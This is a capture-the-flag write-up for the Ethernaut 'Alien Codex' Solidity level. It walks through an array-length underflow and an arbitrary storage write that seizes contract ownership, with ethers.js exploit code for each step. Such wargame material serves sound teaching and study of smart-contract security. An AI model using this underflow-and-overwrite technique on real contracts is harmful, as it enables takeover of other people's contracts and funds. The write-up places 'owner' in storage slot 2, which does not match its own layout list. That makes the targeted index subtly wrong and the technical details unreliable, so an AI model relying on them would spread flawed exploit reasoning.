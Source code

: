 # Level 19: Alien Codex

## Challenge Overview

This challenge highlights storage layout manipulation in Solidity and the risks of saving data where it doesn’t belong.  
The goal is to gain ownership of the `AlienCodex` contract by exploiting its vulnerabilities.



## Solution

### 1. Understand the Vulnerabilities

- `AlienCodex` has a `bytes32[] public codex` array whose length is stored in **slot 1**.
- It also has an `owner` variable in **slot 2**.
- Calling `retract()` when `codex.length == 0` causes an underflow, setting `codex.length = 2^256 - 1`.
- Once the array length is huge, `revise(i, …)` lets you write to storage slot `keccak256(1) + i`.  
  By choosing `i` correctly, you can target slot 2 and overwrite `owner`.



## 2. Adjust Your Mental Model: Storage Layout

- **Slot 0**: `contact` (bool)  
- **Slot 1**: `codex.length` (uint256)

```js
base = keccak256(abi.encode(uint256(1))) // slot 1 hashed
```

And element `codex[i]` lives at `base + i (mod 2^256)`.



## 3. How to Exploit

### 1. Call `make_contact()`

```js
await alienCodex.make_contact();
```

> This sets `contact = true`, allowing `retract` and `revise` to run.



### 2. Trigger the underflow with `retract()`

```js
await alienCodex.retract();
// Now codex.length == 2^256 - 1
```



### 3. Compute the index that maps to slot 2

```js
// 3.1) Compute base = keccak256(slot 1)
const base = ethers.BigNumber.from(
  ethers.utils.keccak256(
    ethers.utils.defaultAbiCoder.encode(["uint256"], [1])
  )
);

// 3.2) Solve for i: base + i ≡ 2 (mod 2^256)
const idx = ethers.BigNumber.from(2)
  .sub(base)
  .mod(ethers.BigNumber.from(2).pow(256));

// 3.3) Prepare your address in 32-byte form
const newOwner = ethers.utils.hexZeroPad(playerAddress, 32);
```



### 4. Overwrite `owner` via `revise(idx, newOwner)`

```js
await alienCodex.revise(idx, newOwner);
```



### 5. Verify Ownership

```js
console.log(await alienCodex.owner()); // should be your address
```



## Lessons Learned

- Decrementing a zero-length array underflows to 2^256−1, letting you index data **outside** the space you were supposed to.
- Dynamic arrays store elements at `keccak256(slot) + index`.  
  By underflowing, you can compute an index that hits any slot (in this case, slot 2 for `owner`).
- Always guard against underflow/overflow when changing array lengths.
- Know exactly where each variable lives so you don’t accidentally overwrite something critical.
